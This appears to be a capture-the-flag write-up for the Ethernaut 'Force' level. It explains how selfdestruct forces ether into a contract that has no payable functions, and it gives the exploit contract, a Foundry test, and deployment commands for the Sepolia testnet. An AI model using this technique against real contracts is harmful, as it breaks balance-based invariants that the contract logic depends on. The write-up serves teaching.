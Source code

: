 ## 👾 07. Force

<br>


### tl; dr

<br>


* this challenge exploits smart contract invariants, and how total balance is not a good invariant.
  - contract invariants are properties of the program state that are expected always to be true. for instance, the value of `owner` state variable, the total token supply, etc., should always remain the same.
  - a state in the blockchain is considered valid when the contract-specific invariants hold true.

<br>

* in this challenge, we need to find a way to forcely send `ether` to a contract that does not explicitly contain a `payable`, a `receive()`, or a `fallback()` function.

<br>



* there are two ways this can be done when the destination contract is already deployed:
   - by using `coinbase` transactions or block rewards (like MEV searchers and validators rewards)
  - by leveraging (**[the now being deprecated](https://ethereum-magicians.org/t/deprecate-selfdestruct/11907)**) `selfdestruct(address)`, which allows contracts to receive `ether` from other contracts. 
    - all the `ether` stored in the calling contract is transferred to `address` (and since this happens at the EVM level, there is no way for the receiver to prevent it). 
    - `selfdestruct()` can be considered a garbage collection to clean up voided contracts (and it consumes negative gas).

<br>


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/06c0c5bb-8c1f-49a4-a2a1-561d5f1fa74b">
</p>




<br>

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```


<br>

---

### discussion

<br>

* `Force` contract has no code and its ABI is empty, so we need to figure out how we can send `ether` to it.

<br>

* as mentioned above, we can use `selfdestruct(address)`, a function used to delete a contract from the blockchain by removing its code and storage.

<br>



----

### solution

<br>

* we craft a very simple exploit, located at `src/07/ForceExploit.sol`:

<br>

```solidity
contract ForceExploit {
    
    constructor(address payable instance) payable {
        selfdestruct(instance);
    }
}
```

<br>

* and test it with `test/07/Force.t.sol`:

<br>

```solidity
contract ForceTest is Test {

    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
    
        vm.prank(instance);
        vm.deal(hacker, 1 ether);

    }

    function testForceHack() public {

        vm.startPrank(hacker);

        assert(instance.balance == 0);
        
        ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);

        assert(instance.balance != 0);

        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ForceTest -vvvv    
```



<br>

* then, we submit the solution with `script/07/Force.s.sol`:

<br>

```solidity
contract Exploit is Script {

        address payable instance = payable(vm.envAddress("INSTANCE_LEVEL7"));       
        
        function run() external {

            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

            ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
            
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/07/Force.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### solution using `cast`

<br>

* deploy the exploit with:

<br>

```shell
> forge create src/07/ForceExploit.sol:Contract --constructor-args=<level address> --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

* then call the contract with:

<br>

```shell
> cast send <deployed address> --value 0.0005ether --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

----

### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>


